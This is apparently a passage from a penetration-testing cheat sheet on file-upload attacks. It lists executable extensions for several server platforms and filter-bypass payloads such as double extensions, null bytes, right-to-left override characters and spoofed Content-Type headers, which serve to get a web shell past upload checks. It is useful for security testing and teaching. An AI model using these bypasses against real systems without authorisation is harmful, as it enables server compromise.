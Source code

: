 ASP Server
```
.asp
.aspx
.config
.cer and .asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
```

- JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
- Perl: `.pl, .pm, .cgi, .lib`
- Coldfusion: `.cfm, .cfml, .cfc, .dbm`
- Node.js: `.js, .json, .node`

##### Upload tricks

Use double extensions : `.jpg.php, .png.php5`

Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`

Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`

Null byte (works well against `pathinfo()`)
- `.php%00.gif`
- `.php\x00.gif`
- `.php%00.png`
- `.php\x00.png`
- `.php%00.jpg`
- `.php\x00.jpg`

Special characters
- Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
- Whitespace and new line characters
    - `file.php%20`
    - `file.php%0d%0a.jpg`
    - `file.php%0a`
- Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
- Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
- Multiple special characters: `file.jsp/././././.`

Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
- `Content-Type : image/gif`
- `Content-Type : image/png`
- `Content-Type : image/jpeg`
- Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
- Set the Content-Type twice: once for unallowed type and once for allowed.
##### Filename vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.
